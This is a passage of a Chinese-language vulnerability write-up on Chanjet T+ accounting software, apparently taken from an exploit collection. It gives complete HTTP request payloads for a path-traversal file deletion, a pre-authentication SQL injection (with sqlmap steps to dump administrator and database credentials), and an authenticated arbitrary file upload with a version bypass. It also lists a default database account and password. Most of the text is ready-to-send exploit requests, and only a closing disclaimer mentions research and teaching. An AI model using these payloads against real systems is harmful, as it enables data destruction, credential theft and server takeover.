****  

**经检查发现删除目录为 /UserImages 使用 ../ 可进行跨目录 **Payload:****

```http
POST /tplus/ajaxpro/Ufida.T.EAP.Voucher.WebController.AjaxImageService,Ufida.T.EAP.Voucher.WebController.ashx?method=DeleteSingleImage HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8
Cache-Control: no-cache
Connection: keep-alive
Content-Length: 50
Content-Type: application/json
Host: 127.0.0.1
Origin: http://127.0.0.1
Pragma: no-cache
Referer: http://127.0.0.1/tplus/ajaxpro/Ufida.T.EAP.Voucher.WebController.AjaxImageService,Ufida.T.EAP.Voucher.WebController.ashx?method=DeleteSingleImage
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
{
  "fileName":"../aaa.jpg"
}

```

********

**0x05 前台 Sql 注入漏洞**
--------------------

**默认数据库账密:****TPlusDBAdmin|tplus_12345(此处为 Base64 加密)**

**位于 Ufida.T.SM.Login.UIP.LoginManager 的 CheckPassword 方法存在 Sql 查询操作 且未作任何过滤 导致注入漏洞产生.**





**Payload (放入 Sqlmap 中跑即可):**

```http
POST /tplus/ajaxpro/Ufida.T.SM.Login.UIP.LoginManager,Ufida.T.SM.Login.UIP.ashx?method=CheckPassword HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8
Cache-Control: no-cache
Connection: keep-alive
Content-Length: 346
Content-Type: application/json
Host: 127.0.0.1
Origin: http://127.0.0.1
Pragma: no-cache
Referer: http://127.0.0.1/tplus/ajaxpro/Ufida.T.SM.Login.UIP.LoginManager,Ufida.T.SM.Login.UIP.ashx?method=CheckPassword
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
{
  "AccountNum":"*",
  "UserName":"admin",
  "Password":"e10adc3949ba59abbe56e057f20f883e",
  "rdpYear":"2022",
  "rdpMonth":"2",
  "rdpDate":"21",
  "webServiceProcessID":"admin",
  "ali_csessionid":"",
  "ali_sig":"",
  "ali_token":"",
  "ali_scene":"",
  "role":"",
  "aqdKey":"",
  "formWhere":"browser",
  "cardNo":""
}

```



**SQL 注入畅捷通小 Tips：**

**先执行个 --sql-shell 然后直接用语句查询** **select * from eap_configpath**



**即可出来管理员账密 + 数据库账密**

****

**0x06 后台任意文件上传漏洞**
-------------------

**/tplus/CommonPage/UserFileUpload.aspx 文件中含有 UploadUserFile 函数 导致了鉴权任意文件上传（v17<= 版本可 ?preload=1** **绕过）**





Payload:

```http
POST /tplus/CommonPage/UserFileUpload.aspx HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8
Cache-Control: no-cache
Connection: keep-alive
Content-Length: 775
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryMXNLGZirKX5UAvYG
Cookie: LOGIN_LANG=cn; ASP.NET_SessionId=oafhmiapxpe5vqesdwm4oms5; Hm_lvt_fd4ca40261bc424e2d120b806d985a14=1674191380,1674378083,1674393050,1674536169; Hm_lpvt_fd4ca40261bc424e2d120b806d985a14=1674543095
Host: 127.0.0.0
Origin: http://127.0.0.0
Pragma: no-cache
Referer: http://127.0.0.0/tplus/CommonPage/UserFileUpload.aspx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
----WebKitFormBoundaryMXNLGZirKX5UAvYG
Content-Disposition: form-data; 
Content-Type: image/jpeg
Hello Hack
----WebKitFormBoundaryMXNLGZirKX5UAvYG-

```



**免责声明：****文章中涉及的程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！！**
======================================================================================================

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
